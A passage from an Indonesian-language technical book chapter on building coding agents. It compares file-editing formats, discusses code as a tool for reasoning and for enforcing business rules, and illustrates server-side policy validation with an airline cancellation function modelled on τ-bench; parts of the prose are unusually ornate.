

**Deskripsi Diff + Apply Model**: Model tidak secara langsung menentukan bagaimana cara mengedit file; melainkan menghasilkan deskripsi perubahan—yang bisa berupa teks *diff* yang mirip dengan git diff (format yang dikeluarkan oleh perintah `git diff`, menunjukkan "baris mana yang dihapus dan mana yang ditambahkan"), atau kerangka kode (code skeleton) dengan penanda penghilangan (menggunakan komentar seperti "tetap tidak berubah di sini" untuk melewati bagian yang tidak dimodifikasi). Deskripsi ini kemudian diserahkan kepada "Apply Model" yang khusus—biasanya LLM lain yang lebih kecil dan lebih cepat—yang bertanggung jawab untuk menggabungkannya dengan file asli untuk menghasilkan file baru yang utuh. Pemisahan tugas (*separation of concerns*) ini memungkinkan model utama untuk fokus pada logika kode tingkat tinggi (high-level code logic) dan *apply model* fokus pada operasi teks tingkat rendah (low-level text operations). Kerapuhan dari implementasi sederhana (*naive*) terletak pada langkah penggabungan (merge): ketika terdapat sedikit ketidaksesuaian antara deskripsi perubahan dengan kode file yang sebenarnya, ia perlu menentukan apakah keduanya merujuk ke lokasi yang sama; ketika ada banyak cuplikan kode yang mirip, ia mungkin menggabungkan di tempat yang salah. Cursor adalah representasi dari evolusi terus-menerus dari pendekatan ini: model utama mengeluarkan kerangka kode dengan penanda penghilangan, model kecil terapan-cepat (fast-apply) yang dilatih khusus menulis ulang file secara utuh, dan pendekodean spekulatif (menggunakan konten file asli sebagai draf untuk verifikasi paralel) mendorong kecepatan penggabungan hingga ribuan token per detik—investasi rekayasa telah membeli keandalan dan kecepatan untuk pendekatan ini.

**String Lama → String Baru**: Pendekatan yang diadopsi oleh Claude Code. Model memberikan string lama (teks asli yang akan diganti) dan string baru (teks pengganti), lalu *framework* melakukan pencarian dan penggantian string (string find-and-replace) secara sederhana. Keuntungannya adalah kepastian (predictability) dan transparansi—jika string lamanya ada dan unik di dalam file, maka berhasil; jika tidak, ia gagal. Tidak ada ambiguitas. Kerugiannya adalah bahwa menghapus blok kode yang besar memerlukan *output* semua konten aslinya secara utuh; penyimpangan satu karakter saja menyebabkan pencocokan gagal. Saat kode yang sama muncul berkali-kali, konteks yang lebih panjang harus disediakan untuk menghilangkan ambiguitas (disambiguate).

**Penargetan Nomor Baris (Nomor Baris Lama → String Baru)**: Model menentukan "hapus baris X ke Y, masukkan konten baru." Nomor baris sangat presisi dan tidak ambigu, dan menghapus blok besar hanya membutuhkan dua angka. Namun, model rentan terhadap kesalahan saat "menghitung" nomor baris, khususnya untuk file yang sangat panjang. Praktiknya, hal ini dimitigasi dengan menambahkan anotasi nomor baris di setiap baris pada saat membaca file, tetapi nomor baris berikutnya akan berubah setelah setiap pengeditan, sehingga membatasi paralelisme pada banyak pengeditan.

**Perintah Edit Ala Vim**: Meminjam dari sistem perintah editor Vim, yang mendukung operasi kaya seperti menyalin (copy), memotong (cut), dan menempel (paste). Sangat efisien untuk merestrukturisasi kode (memindahkan fungsi dari satu tempat ke tempat lain). Tetapi sintaks perintah membawa beban pembelajaran yang nyata: model-model terkuat menanganinya dengan baik; model yang lebih kecil membuat kesalahan yang jauh lebih mencolok.

**Pencocokan Awal + Akhir String (Awal + Akhir String Lama → String Baru)**: Ini dapat dilihat sebagai peningkatan dibandingkan skema penggantian *string* lama. Model tidak perlu mengeluarkan *string* lama secara utuh; ia hanya perlu memberikan beberapa baris awal dan beberapa baris akhir dari konten yang akan dihapus, menghilangkan bagian tengah. Framework akan menemukan area penggantian dari pasangan awal dan akhir ini, asalkan kombinasi tersebut unik di dalam file. Skema ini menggabungkan keandalan (reliability) penggantian teks dengan efisiensi pendekatan nomor baris—saat menghapus blok kode yang besar, tidak perlu mengeluarkan ratusan baris kode asli, cukup batasan (boundaries)-nya saja yang perlu ditunjukkan. Pada saat yang sama, karena masih berbasis pada pencocokan konten alih-alih nomor baris abstrak, risiko model melakukan kesalahan relatif lebih rendah.

**Saran Praktis.** Agen Pengodean arus utama terbagi dalam dua kubu, masing-masing dengan keunggulannya (flagship): Claude Code mengambil rute "string lama ke string baru"—mengutamakan keandalan, implementasi yang sederhana, dan tidak memerlukan model ekstra; Cursor telah mendorong rute Apply Model ke batasnya—rela membayar pelatihan dan inferensi model khusus *fast-apply* demi mendapatkan *throughput* pengeditan yang lebih tinggi. Jika Anda membangun Agen Anda sendiri, "string lama ke string baru" adalah titik awal paling aman; untuk pengeditan skala besar, "pencocokan awal + akhir string" adalah kompromi yang lebih ekonomis; pendekatan nomor baris hanya dapat diandalkan dengan integrasi mendalam bersama IDE (di mana editor memelihara pemetaan nomor baris secara langsung dan menyuplainya kembali ke model usai setiap pengeditan)—jika tidak, pergeseran (drift) nomor baris akan menenggelamkannya.

## Kode: Kemampuan Meta dari Agen Serbaguna

Bagian sebelumnya menunjukkan cara membangun Agen Pengodean yang andal—dari mulai arsitektur hingga implementasi alat dan rekayasa Harness. Tetapi nilai dari pembuatan kode meluas jauh melebihi penulisan program semata.

> **Apa itu "kemampuan meta (meta-capability)"?** Kemampuan (capability) biasa adalah kemampuan Agen untuk melakukan suatu hal tertentu—menjawab pertanyaan, memanggil API tertentu, membuat sepotong teks. **Kemampuan meta** adalah kemampuan yang "dapat menciptakan kemampuan-kemampuan lain": Agen menggunakannya untuk menulis alat (tools) baru, kendala baru, serta bentuk ekspresi yang baru seketika itu juga (on the fly) demi menyelesaikan suatu tugas, tanpa perlu menyematkan prasetel atas semua kapabilitas yang dibuat dari awal (pre-built). Pembuatan kode justru berfungsi sebagai kemampuan meta semacam itu—karena kode bersifat presisi, dapat dieksekusi, dan dapat digabung-gabungkan (composable), memungkinkan agen untuk menghasilkan alat baru (skrip, rangkaian panggilan API), kendala (constraints) baru (pernyataan ketegasan / assertions, aturan validasi), dan bentuk rupa (forms of expression) baru (formulir HTML, lembaran PPT, rangkaian frame video).

Oleh karena alasan tersebut, peran sandangan "kode (code)" di dalam struktur Agen bertumbuh melampaui tabiat standar "merangkai barisan tulisan program (writing programs)". Deret alinea menawan sebanyak 6 penggal rute teranyar esok merajut rupa (demonstrate) secara terinci bertahap demi setahap, kemana kah jalur kemampuan mega-ganda meta (meta-capability) dapat dialirkan menyebar mendobrak penjara tata-susunan pemrograman asalnya (beyond programming): (1) Alat Berfikir Logis (Thinking Tools)—mentransformasikan kode selaik pemukul ganti ungkapan fana logat harian nalar natural demi logika murni beralaskan ketepatan mutlak; (2) Tata Kendala Rantai Niaga (Business Rule Constraints)—menegakkan rupa tata aturan supaya sistem kebal akan ilusi tipu daya cerminan sang model (model hallucinations); (3) Merangkai Ujud Konten Ganda (Multimedia Generation)—meracik kode agar bertransformasi bagai untai sajian presentasi/video/visualisasi; (4) Sistem Penyesuai Sambungan (System Adapters)—jembatan kode merajut kaitan ragam sistem perantaraan API ganda nan rumit; (5) Membina Tampilan Tata-Muka Genetik (Generative UI)—peran magis melahirkan sajian tabel beserta ujud rupa secara bergerak lincah mandiri; (6) Bootstrap Lingkar Siklus Diri (Bootstrapping)—kode menyalin kode melahirkan ruh Agen anyar.

Deretan enam lorong-rute inipun belumlah sekadar tabel kaku yang terhampar rebah; justru saling mengatrol secara memanjat dari lapis paling pusat memuai menyebar (inside out), melanglang pada aneka rupa pijakan-pengolahannya yang kian dipeluk sang mega meta-kapabilitas:

1.  **Akar Otak Cipta Pikiran Itu Sendiri (Thinking Itself)**—Merestui panggung bagi si kode merebut pertautan keliru-rapuhnya (error-prone) penalaran harian natural manusiawi (Thinking Tools);
2.  **Sikap Tata Niaga Perusahaan (Business Rules)**—Menyandikan kekaburan kebijakan menjemput titik cengkraman absolut pengeksekusian nyata (Business Rule Constraints);
3.  **Suguhan Presentasi Tampak Muka (Content Presentation)**—Pembentukan tatanan bingkai presentasi kaku, sorot tayangan hidup (videos), lalu menyulap barang pajangan grafikal kasat mata (Multimedia Generation);
4.  **Menengahi Jurang Penghubung Antar Sistem (System Interfaces)**—Mengaitkan perbedaan rumit semesta aneka layanan jembatan (*heterogeneous APIs*), dengan kemampuan membenah luwes menyikapi perubahan bentuk wujud paket kiriman sistem (System Adapters);
5.  **Perwajahan Singgasana Pemakai (User Interfaces)**—Menyulap-segera secara lincah dan membina form pengumpulan informasi dan tatanan rupa tata letak nan sarat reaksi lincah (Generative UI);
6.  **Membedah Sifat Kepribadian Si Agen Sepenuh Rupa (The Agent Itself)**—Suntikan ramuan per-kode-an melambungkan penciptaan diri si-Agen untuk menyelesaikan rajut lingkar sempurna yang kembali kepadanya (Sangat berlainan wujudnya dari makna "Evolusi mematangkan diri (self-evolution)" nan dibahas pada Bab 8 yang semata tak bergeming sedikitpun merubah fondasi berat model/weightsnya).

Memperturutkan jejak alunan benang pengikat rentetan-utas nan merekah—dari dasar pusar dalaman menerawang menuju ke lapis luar angkasa, menuntaskan rotasinya memutari titik asal tumpu muasal kancah raga Agen-nya lagi—justru membentangkan hamparan serasi dan purna betapa mulianya kode menjelma selaku mega meta-kapabilitas (meta-capability). Menurunkan wahyu titah lahir-alat-anyar secepat kerling mata (on demand) sejatinya adalah sekadar setapak kelanjutan daya dari kemuliaan meta ini, sesuatu nan kelak akan dijabarkan semakin membukit lagi kala meniti pada rute bahasan Bab 8 kelak.

### Kode Sebagai Perangkat Berpikir (Thinking Tool)

Sosok sang LLM sungguh tak tertandingi kehebatannya dikala mendeteksi merangkum dan menghantarkan tutur logat lumrah keseharian, tapi sebetulnya mereka sedemikian cacat rapuhnya manakala dikonfrontasi perkara membelah takaran presisi komputasi eksak, pergerakan simbolistik yang lugas (symbolic manipulation), dengan rantai susun bongkar logika mutlaknya (strict logical deduction). Pasalnya jelas: cikal bakal inti mesin otaknya (model's thinking) sejatinya bersandar di atas awang-awang tumpukan awan kenisbian probabilitas ramalan belaka (probabilistic and approximate), bilamana ranah ilmu sains hitungan mutlak dan teka-teki logika sungguh-sungguh cuma menagih kucuran air ketetapan baku (deterministic, exact answers). Bukti telak di suatu perbandingan ini lantas merobek kebenaran tersebut:

```
Permasalahan: "Di sebuah kelas bernaung 40 siswa. 60% menyukai matematika, 45% menggemari fisika, lalu ada pula 25% serakah melahap dua-duanya.
          Ada gerangan berapa gelintir siswakah yang semata doyan pada fisika tapi enggan menyentuh matematika?"

Menalar Buta-Mata Pakai Bahasa Biasa (Gampang Sesat):      Menalar Pakai Kode (Akurat Mutlak & Bisa Diselidiki):
"60% penyuka matematika = 24 anak,                           math = int(40 * 0.60)    # 24
 45% penggemar fisika = 18 anak,                             phys = int(40 * 0.45)    # 18
 25% melahap dua-duanya = 10 anak,                           both = int(40 * 0.25)    # 10
 Sebatas fisika tulen = 24 - 10 = 14 anak"                   only_phys = phys - both  # 8
→ Celakanya menyasar mumbulnya perhitungan memotong-matematika, SALAH   → print(only_phys)  # 8 ✓
```

Mandatkan sajalah urusan untuk melahap kalimat soal dengan tugas menyalin runtutan kodenya ke pangkuan si LLM, disusul pasrahkan mutlak urusan ke-Eksak-an komputasi akurasinya terhadap sang Juru Tafsir Kode (*code interpreter*)—pola pecah belah penugasan seperti inilah (*division of labor*) yang sungguh merekah menelurkan segenap sisi kegeniusan terbaiknya (play to its strengths).

Sosok Stephen Wolfram, perintis mahakarya Mathematica, mewasiatkan mutiara penglihatan brilian (*profound insight*) terkait hal semacam ini. Berabad waktu jauh sebelumnya saat eksistensi sang LLM masih berupa tabu, telah merajai belantara sebuah tatanan yang mumpuni menggerakan presisi kalkulasi kematematikaan tingkat wahid—sistem tersebut menghela pengerjaan melalui rute **Simbolisasi Komputasi (Symbolic Computation)**, yaitu: tak lagi memamah perincian ujud rentetan angka serampangan dengan raut terkaan (*approximate numerical values*), melainkan memproses segala pautan aljabar dengan wujud simbul kematematikaan murni semata. Sebuah contoh ringkasnya: jika mesin kalkulator recehan lantas terburu-buru membabat akar-kuadrat $\sqrt{2}$ di wujud tebakan kisaran sebatas 1.414, berlawanan sistem peramu Simbolik murni lantas memelihara kekokohan kesucian format tulennya $\sqrt{2}$, sebatas sekiranya sungguh genting baru dialihkan raut desimalnya. Penemuannya yang bernama Wolfram Alpha itu, adalah wujud paripurna rancang bangun tatanan sakti tersebut: pemakai menjejali gumpalan soal kematematikaan harian, barulah ia seketika mencipratkan jawara mutlak ketepatannya. Celakanya, pemahaman pencernanya menyerap rupa perkataan logat kesehariannya (natural language) itu begitu lapuk ringkih serta hamparan bentang wilayah naungannya amat menyempit (narrow)—keterpakuan mutlak pada alat pendeteksi tata bahasa internal (built-in grammar parser) membuahkan hanya selintasan rupa wujud ucapan (phrasings) semata; sedikit saja geser patahan penyampaian alih-alih mencerai berai sistem telaahnya, ditambah ia dipastikan hancur lebur manakala di sodorkan alam semesta penjelajahan rantaian logika lapis-ke-lapis (*multi-step reasoning*) dunia-bebas. Keganasan si LLM rupanya dengan sempurna merajut tambalan celah renggang ini—mereka adalah sang pendekar wahid tatkala menterjemahkan keluwesan aneka ungkapan tanya keseharian sang Pengguna namun sebaliknya bodoh di tingkat kalkulasi akurasinya. Pola persekutuan *kolaborasi* termutakhir inilah jadinya: biarkan sang LLM menanggung pundaknya menangkap saripati makna alamiah sang penanya dari balutan bahasa kesehariannya, melucut menelanjangi pola struktur aljabar maupun teka-teki logika yang tersemat didalamnya, baru merakit terjemah utuhnya beralih-rupa bagai jelmaan kosa bahasa formalnya (semacam gubahan ala tata bahasa milik si Mathematica sendiri atau mencatut perpustakaan pustaka bahasa racikan Python SymPy); selanjutnya lepaskan tongkat penuntasan eksekusi seutuhnya pada sosok tumpuan (engine) sistem solver khusus penyelesai kendala (constraint solver) demi melahirkan mukjizat angka hasil telaknya.

> **Eksperimen 5-1 ★★: Mendongkrak Kepiawaian Pemecahan Rumus Kalkulasi Matematika Melalui Alat Pembangkit Kode (Code Generation)**
>
> **Tujuan Eksperimen**: Memastikan bukti nyata (Verify) dari adanya lonjakan tingkat akurasi akal sehat agen dalam merangkai pemikiran bermatematika (*mathematical thinking*) bilamana diasuh dibayangi penyokong Code Interpreter.
>
> **Langkah Teknis Terapannya**: Percenjatai sang agen dengan wahana *sandbox* (wadah isolasi) berwujud Python yang ditaburi kompilasi pustaka sains matematika selengkapnya semisal *sympy*, *numpy*, berikut pula *scipy*. Sesaat kapanpun ketika si Agen berpapasan dengan soal matematika, maka ia diwajibkan menyulapnya menjelma formasi (*formalizes*) skrip wujud asupan Python: memanggil *sympy* perihal operasi (symbolic computation) (pencarian kalkulus aljabar tingkat lanjut, urusan penjabar persamaan), menyeret si *scipy* merenggut perkara optimalisasi olah komputasi peliknya, kemudian tak kalah merujuk sang *numpy* untuk babak gulatan aksi barisan lapis bertingkat komputasi matriksnya (matrix operations). Guratan kode nan tuntas ditulis lantas dibongkar (executed) paksa seketika beralas pada perputaran-ruang *sandbox* hampa demi menangkap gema luaran kebenaran aslinya.
>
> **Batas Penerimaan (Acceptance Criteria)**: Jadikan gempuran tes ber-aroma AIME (setara simulasi standar the American Invitational Mathematics Examination) sebagai takaran ujian. Gelar sebuah kancah tarung banding atas kedigjayaan rekam jejak jalur daya tangkap alamiah beruntai ala "chain-of-thought" untuk disanding dengan gerak paduan sokongan berbantuan-kode (*code-assisted reasoning*); pada titik akhir pembuktian, semestinya model paduan sokongan kode tadi mesti unggul mencatat perolehan akurasi berderajat yang signifikan melampaui. Simak cermat selidiki secara mendalam, betulkah si *code* tersebut benar menancapkan peruntukan racikan pustaka pustaka saintifik dan apakah lintasan dari cara penyelesaian solusinya memuai lurus bercorak kilauan logika terang nan utuh.
>

> **Eksperimen 5-2 ★★: Pemanfaatan Alat Pembangkit Kode Untuk Memoles Kapabilitas Membedah Nalar Rasional Logika (Logical Reasoning Ability)**
>
> **Sasaran Ujian Eksperimen**: Menimbang seberapa saktinya si Agen mengaduk nalar logika melalui tunjangan serpihan kode peluluh teka-teki batasan (constraint-solving code).
>
> **Garis Haluan Teknis Terapannya (Technical Approach)**: Jejalkan pelengkap persenjataan kepada diri Sang Agen sebuah *Code Interpreter* per-rakit pustaka python yang bernama *python-constraint*. Si Agen itu lalu merombak-terjemah tebakan simpang siur teka-teki logika nalar kusut semacam probem *"The Knights and Knaves"*, lantas mendudukkannya bersandar selaras corak model penyekat bentangan logik (*formal constraint models*): pertamanya ia mengenali pe-ubah yang bermain (masing-masing reka wujud penduduk penghuni kancahnya), mengubah-suai kode ketentuan lazim misalnya "kaum *knights* itu selalu menjujung tinggi omongan benarnya" sebagai ikatan-hukum (*constraints*), barulah memanggil-perintah (invokes) the *solver* untuk menggali keping putusan sah nan pas.
>
> **Syarat Batas Kelulusan (Acceptance Criteria)**: Gali peruntungan takaran dari kumpulan pusaka [*K&K Puzzle dataset*](https://huggingface.co/datasets/K-and-K/perturbed-knights-and-knaves). Pasukan pembawa sokongan kode sepatutnya melenggang gilang-gemilang merenggut keberhasilan akurasi penyelesaian jauh melejit tinggi 90%, yang notabene adalah sangat jomplang meninggalkan level daya kaji kubu nalar *thinking* polosnya.
>

Secuil rahasia eksperimen (experiment) ini lagi-lagi menelanjangi satu keniscayaan umum beralur pasti (more general pattern): sang model dengan kawan seperjuangan harness niscaya memunculkan sebuah titik jungkat-jungkit penawaran (trade off). Bilamana tingkat superior model dirasa cemerlang tak tertandingi mumpuni (*strong enough*), tameng Harness sah-sah saja dapat dibikin tipis—kendali dari model saja beres melumat nalar secara akurat mutlak (reasons correctly on its own), lalu celah kebermanfaatan ganjaran sisipan dari penolong sandi kode (*code solver*) beringsut mengecil. Manakala nasib model melemah, pertolongan dari sisi perlengkapan pelindung *harness* dituntut wajib merengkuh (do more)—menghempas babak kepelikan rasio logikal ke bahu jajaran pasukan si-kode dengan rentetan peramu per-ikatan (constraint solvers) agar bergaransi jaminan utuh (guarantee correctness). Oleh karena alasan itulah kiranya mengapa rangkaian eksperimen mutlak ini senantiasa disengaja memakai figur beringas sebentuk model nan berkasta-rendah (weaker model) dengan niatan mengamplifikasi sengitnya jurang perbandingan itu: tatkala berpapasan menjamu model ringkih, alur bernalar yang murni semata acap kali kesasar kalkulasi secara rutin lalu disusul penopang kekuatan ganda bantuan kodenya langsung lantas secara seketika mendongkrak meroket tingkat kemujuran akurasi. Tatkala ditimpa nasib menyokong sistem super cemerlang sangar dan kuat secara rasionalitasnya, rentetan pemikiran murni (*pure thinking*) justru lebih mumpuni menyapu mulus penyelesaiannya (solves every puzzle) pada segala lini teka tekinya, di situlah pamor kemegahan bantuan sokong kodenya berangsur pupus menyentuh dasar tanah titik mendekati angka-nol belaka (converges to near zero). Maka pertimbangan terkait tebal tipisnya perlindungan pelindung sang harness tersebut, puncaknya terpulang pada pada sejauh apakah garis palang tepian kecerdasan batasan kompetensi kapabilitas model milikmu (capability boundary) merentang-batas—sebuah poin pangkal perdebatan ringkih nan rapuh diacuhkan orang bila sekedar menilai aneka sistem peranti Agen (any Agent technique): jubah *harness* yang serupa saja, manakala direkatkan mengikat sang model-model dengan trah ras tingkatan level kekuatan berseberangan jomplang, ujung-ujungnya malah melegitimasi timbulnya silang pemikiran putusan simpulan nan berbelok arah kontradiksi (opposite conclusions).

### Kode Sebagai Benteng Kendali Tatanan Kepatuhan Peraturan Niaga (Constraint for Business Rules)

Pembahasan di ruas ini mengukuhkan balasan telak menjawab deret narasi pengikat-lapis bagian penjabaran Rekayasa Harness (Harness Engineering) yang berada diawal penjelajahan bab ini. Kesatuan pakem hakiki pondasi Harness yakni "*Kendali-Larang-Terpasung (Constraints): Sematkan Ke Jantung Kode (Encoded), Jangan Sekadar Didiktekan Berwujud Naskah (Not Documented)*"—merombak wujud pedoman kaku wacana yang berserakan acak ala logat tutur-manusia bertransformasi ujud menjelma kode sakti siap-hajar (*executable code*), mensakralkannya sedemikian rupa menjadi kendali hukum sistematis perlakuan-polah yang beradab (mandatory constraints on system behavior) ketimbang dibiarkan sekedar melenggang tanpa daya selaik bisikan usul-fatwa belaka (advisory guidelines). Rupa pancaran Pembuatan Kode (Code generation)-lah penjamin yang melapangkan ruang agar gerak lincah Sang Agen mumpuni menyapubersih siklus purna transformatif mandiri penuangan tatanan-tegas sedemikian wujudnya.

Kaidah panduan jalinan perdagangan (*business rules*), rentetan alur laju putaran tata kerja (*workflows*), bersama pertalian rantai akal putusan-sekat (decision logic) jika sebatas dicatat ala tuturan tata bahasa awam sungguh carut marut sarat kelambu kekeliruan berwujud kemenduaan makna (ambiguity). Ukuran macam apa kah rupanya batasan dari sematan frasa "sebuah tuntutan pemulangan dana yang logis (a reasonable refund request)"? Kapan waktu kiamat yang bisa di-klaim sebuah "perkara genting/darurat"? Tabir batas kepatutan itu justru selalu binal membangkang lolos dari rengkuhan takaran pakem bahasa awam (natural-language definition)—"sah dibalikkan di rentang 7 hari pembelanjaan" sungguh enak di telinga mendengarkannya, tetapi akankah 7 hari tadi jatuh mengikat patokan hitung hari libur tanggalan (calendar days) atau sekadar hitungan resmi (business days)? Lalu makna "belanja (purchase)" itu apakah melingkupi momen pemesanan (order placement) semata ataupun mencakup momen dikirimnya (shipment)? Sebongkah perawakan dari Kode (*Code*), berdiri lantang di sudut penangkal (by contrast), merupakan perwakilan ekspresi yang lurus, tanpa keraguan se-ambigu sedikitpun, dan sakti tereksekusi mandiri layaknya muara wujud pelambang peradaban tata-ilmu pengetahuan—nasib geraknya hanya mentok sukses-dieksekusi (runs) atau langsung tumbang mencetus derita (error); tiada lagi celah toleransi yang abu-abu di pertengahan.
**Mengekspresikan Aturan Bisnis yang Kompleks secara Presisi.**

**Aturan Bahasa Alami vs. Aturan yang Dikodekan: Saling Melengkapi, Bukan Saling Menggantikan**

Menulis aturan dalam *system prompt* memungkinkan model untuk **menjelaskan kebijakan** kepada pengguna, **mengidentifikasi alternatif yang sesuai kebijakan** (misalnya, "pesan ulang daripada batalkan"), dan membuat penilaian kelayakan awal sebelum memanggil sebuah alat.

Mengodekan aturan sebagai alat validasi menawarkan tiga keuntungan: **logika keputusan yang presisi dan tidak ambigu**; **eksekusi deterministik**, sehingga masukan yang sama selalu menghasilkan keluaran yang sama; dan penanganan efektif dari **kombinasi aturan yang kompleks**, seperti logika Boolean multikondisi, perhitungan waktu, dan validasi lintas sumber data.

Dalam praktiknya, keduanya harus digunakan bersama-sama: *system prompt* berisi aturan bahasa alami untuk pemahaman dan komunikasi, sementara titik-titik keputusan penting dilengkapi dengan alat validasi terkode yang bertindak sebagai "penjaga gerbang" untuk memastikan kepatuhan.

Nilai sebenarnya dari aturan terkode bukanlah efisiensi token, melainkan **mencegah kesalahan yang tidak dapat diubah (irreversible)**. Membatalkan pesanan, mentransfer dana, atau menghapus data mungkin mustahil diurungkan setelah dieksekusi. Validasi terkode menempatkan garis pertahanan terakhir di depan operasi tersebut, dan nilai jaminan tersebut jauh melebihi biaya implementasinya.

**Menggabungkan Validasi dengan Eksekusi: Daftar Periksa Memandu Penalaran; Validasi Ground-Truth Menjaga Gerbang**

Daripada membangun alat validasi yang terpisah, letakkan validasi tersebut di dalam alat eksekusi. Pertimbangkan kebijakan pembatalan maskapai penerbangan dari τ-bench, sebuah *benchmark* yang dirancang untuk mengevaluasi penggunaan alat dan kepatuhan kebijakan dalam simulasi skenario layanan pelanggan maskapai dan *e-commerce*:

```python
def cancel_reservation(
    reservation_id: str,
    cancellation_reason: str,        # "change_of_plan", "airline_cancelled", "other"
    expected_cabin_class: str = None,    # Opsional: untuk pemeriksaan mandiri model; server menggunakan kebenaran database untuk verifikasi
    expected_has_insurance: bool = None  # Opsional: untuk pemeriksaan mandiri model; sama seperti di atas
) -> dict:
    """
    Batalkan reservasi penerbangan.

    Kebijakan pembatalan (ditegakkan di sisi server berdasarkan data dasar (ground truth) database):
    - Aturan 1: Reservasi dengan segmen apa pun yang telah digunakan tidak dapat dibatalkan
    - Aturan 2: Reservasi dapat dibatalkan tanpa syarat dalam waktu 24 jam setelah pemesanan
    - Aturan 3: Penerbangan yang dibatalkan oleh maskapai selalu dapat dibatalkan
    - Aturan 4: Kelas bisnis selalu dapat dibatalkan
    - Aturan 5: Ekonomi dasar dan ekonomi memerlukan asuransi perjalanan untuk dapat dibatalkan

    Sebelum memanggil, silakan tanyakan rincian pesanan dan periksa setiap aturan di atas satu per satu. Parameter expected_*
    mencatat dasar penilaian Anda. Server membandingkannya dengan data otoritatif untuk audit, tetapi
    tidak memengaruhi keputusan kebijakan.
    """
    # Semua fakta kebijakan dibaca dari database; jangan pernah mempercayai nilai yang dilaporkan oleh model
    r = db.get_reservation(reservation_id)
    now = server_clock.now()  # Jam server, tidak disediakan oleh model

    # Catat peringatan jika nilai yang dilaporkan model tidak cocok dengan data sebenarnya, untuk mendeteksi kesimpulan yang salah atau potensi injeksi
    if expected_cabin_class is not None and expected_cabin_class != r.cabin_class:
        log_mismatch(reservation_id, "cabin_class", expected_cabin_class, r.cabin_class)
    if expected_has_insurance is not None and expected_has_insurance != r.has_insurance:
        log_mismatch(reservation_id, "has_insurance", expected_has_insurance, r.has_insurance)

    if r.any_segment_used:
        return {"success": False, "reason": "Tidak dapat membatalkan jika sudah ada segmen yang digunakan"}

    hours_since_booking = (now - r.booking_time).total_seconds() / 3600
    if hours_since_booking <= 24:
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Dibatalkan dalam jendela 24 jam"}

    if r.flight_status == "cancelled_by_airline":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Maskapai membatalkan penerbangan"}

    if r.cabin_class == "business":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Pembatalan kelas bisnis"}

    if r.cabin_class in ["basic_economy", "economy"]:
        if r.has_insurance:
            execute_cancellation(reservation_id)
            return {"success": True, "reason": f"{r.cabin_class} dengan asuransi"}
        return {"success": False, "reason": f"{r.cabin_class} membutuhkan asuransi"}

    return {"success": False, "reason": "Tidak memenuhi kebijakan pembatalan"}
```

Nilai dari desain ini harus dipahami pada dua tingkatan.

**Tingkat pertama: parameter sebagai daftar periksa pemikiran.** Deskripsi alat mencantumkan kebijakan pembatalan lengkap dan mengharuskan model untuk "menanyakan rincian pesanan dan memeriksa setiap kondisi satu per satu sebelum memanggil"; parameter `expected_*` yang opsional lebih jauh mendorong model untuk secara eksplisit menuliskan penalarannya sendiri. Untuk mengisi parameter ini, model pertama-tama harus memanggil alat pencarian (*query tool*) untuk mendapatkan rincian pesanan dan memverifikasi setiap kondisi satu per satu — mengisi parameter ini dengan demikian bertindak sebagai **daftar periksa wajib**. Ketika model menemukan bahwa kelas kabinnya adalah ekonomi dan asuransi belum dibeli, ia mungkin menyadari Aturan 5 saat bersiap memanggil alat tersebut, dan karenanya **menghindari inisiasi panggilan**, melainkan langsung memberi tahu pengguna: "Kelas ekonomi tanpa asuransi tidak dapat dibatalkan. Pertimbangkan untuk membeli asuransi sebelum membatalkan atau mengubah pesanan Anda." Lapisan ini memandu penalaran dan mengurangi panggilan tidak valid; namun, ini bukanlah batas keamanan. Nilai-nilai `expected_*` hanyalah klaim yang dilaporkan sendiri, bukan fakta yang dipercayai oleh server.

**Tingkat kedua: validasi ground-truth sisi-server sebagai penjaga gerbang.** Perhatikan desain penting pada kodenya: kelas kabin, status asuransi, waktu pemesanan, penggunaan segmen, dan status penerbangan semuanya dikueri dari basis data (database) oleh server; waktu saat ini (current time) diambil dari jam internal server. **Tidak ada fakta kebijakan yang berasal dari parameter yang dilaporkan sendiri oleh model.** Ini bukanlah sekadar pengulangan (*redundancy*) yang percuma: sang model berpotensi mengalami halusinasi atau dicurangi melalui *prompt injection*, dan—sebagaimana diperlihatkan pada analisis Lethal Triad sebelumnya—sebuah Agen yang dioperasikan dalam batas konteks (*context*) yang sama tidak akan mampu menjamin validasi dari perilakunya secara akurat. Andai parameter-parameter seperti `cabin_class`, `has_insurance`, apalagi `current_time` diatur dengan cara bergantung pada asupan masukan sang model, sebiji saja nilai cacat meleset—baik luput tak sengaja apalagi memang telah tercemar—ia segera menelikung lolos dari penjaga gerbang (gatekeeper). Pertahanan penghalang pamungkas mutlak ditanam di atas fakta kebenaran data murni (data) yang di luar akal bulus tipuan peretasan model—hal ini seiya sekata akan pedoman pandangan di bagian paling muka: "segala wujud krusial menuntut adanya kepastian verifikasi mandiri dan telak": otonomi di sini tidak semata menegaskan kewujudan sosok model pihak-tiga (independent model) nan murni berdaulat, tetapi menegaskan pijakan sumber validasi data asal (independent data source) itu sendirilah penyokong tegaknya kebenaran 